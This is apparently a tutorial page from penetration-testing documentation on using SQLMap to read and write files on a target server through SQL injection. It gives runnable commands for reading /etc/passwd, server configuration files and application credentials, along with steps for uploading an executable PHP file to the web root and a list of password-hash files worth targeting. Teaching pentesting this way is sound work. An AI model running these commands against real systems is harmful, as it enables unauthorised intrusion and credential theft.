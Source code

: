 ```yaml
---
title: File System Access
description: Learn how to use SQLMap to access the target's file system
---
```


# File System Access with SQLMap

SQLMap provides powerful capabilities to interact with the target server's file system through SQL injection vulnerabilities. This section covers how to read, write, and execute files on the target system.


## Reading Files

<Tabs defaultValue="basic" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="basic">Basic Usage</TabsTrigger>
    <TabsTrigger value="advanced">Advanced Options</TabsTrigger>
    <TabsTrigger value="examples">Real-World Examples</TabsTrigger>
  </TabsList>
  <TabsContent value="basic">
    ### Basic File Reading

    To read files from the target system, use the `--file-read` parameter:

    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd"
    ```

    SQLMap will attempt to retrieve the specified file using the SQL injection vulnerability. The file will be stored in the output directory (default: ~/.sqlmap/output/).
  </TabsContent>
  <TabsContent value="advanced">
    ### Advanced File Reading Options

    SQLMap offers several options to customize file reading:

    ```bash
    # Read multiple files
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd" --file-read="/etc/hosts"

    # Specify output directory
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd" -o

    # Use a specific technique
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd" --technique=E
    ```

    The `-o` flag enables all optimization features, which can help with retrieving larger files more efficiently.
  </TabsContent>
  <TabsContent value="examples">
    ### Real-World Examples

    During penetration testing, you might want to retrieve configuration files that could contain sensitive information:

    ```bash
    # Web server configuration
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/apache2/apache2.conf"

    # PHP configuration
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/php/7.4/apache2/php.ini"

    # Web application configuration
    sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/var/www/html/config.php"
    ```

    These files often contain database credentials, API keys, and other sensitive information.
  </TabsContent>
</Tabs>

## Writing Files

<Stepper>
  <StepperItem title="Prepare Your File">
    First, create the file you want to upload to the target system. For example, a simple PHP info script:
    
    ```php
    <?php phpinfo(); ?>
    ```
    
    Save this as `info.php` on your local machine.
  </StepperItem>
  <StepperItem title="Upload the File">
    Use the `--file-write` and `--file-dest` parameters to upload the file:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --file-write="info.php" --file-dest="/var/www/html/info.php"
    ```
    
    SQLMap will attempt to write your local file to the specified destination on the target server.
  </StepperItem>
  <StepperItem title="Verify the Upload">
    After uploading, verify that the file was successfully written by accessing it through the web browser:
    
    ```
    http://target.com/info.php
    ```
    
    If the PHP info page displays, the file was successfully uploaded and is executable.
  </StepperItem>
</Stepper>

## Common File System Targets

When accessing a target's file system, certain files and directories are particularly valuable for penetration testers:

<div className="grid grid-cols-1 md:grid-cols-2 gap-4 mt-6">
  <div className="border rounded-md p-4">
    <h3 className="text-lg font-semibold">Linux Systems</h3>
    <ul className="list-disc pl-5 mt-2">
      <li>/etc/passwd - User accounts</li>
      <li>/etc/shadow - Password hashes</li>
      <li>/etc/hosts - Host mappings</li>
      <li>/etc/apache2/apache2.conf - Web server config</li>
      <li>/var/www/html/ - Web root directory</li>
    </ul>
  </div>
  <div className="border rounded-md p-4">
    <h3 className="text-lg font-semibold">Windows Systems</h3>
    <ul className="list-disc pl-5 mt-2">
      <li>C:\Windows\System32\drivers\etc\hosts</li>
      <li>C:\inetpub\wwwroot\web.config</li>
      <li>C:\Windows\win.ini</li>
      <li>C:\Windows\repair\sam</li>
      <li>C:\xampp\htdocs\ - Common web root</li>
    </ul>
  </div>
</div>

## Directory Structure Example

Below is an example of a typical web application directory structure you might encounter:

```
/var/www/html/
├── index.php
├── config/
│   ├── database.php
│   └── settings.php
├── includes/
│   ├── header.php
│   └── footer.php
├── assets/
│   ├── css/
│   ├── js/
│   └── images/
└── uploads/
    └── user_files/
```

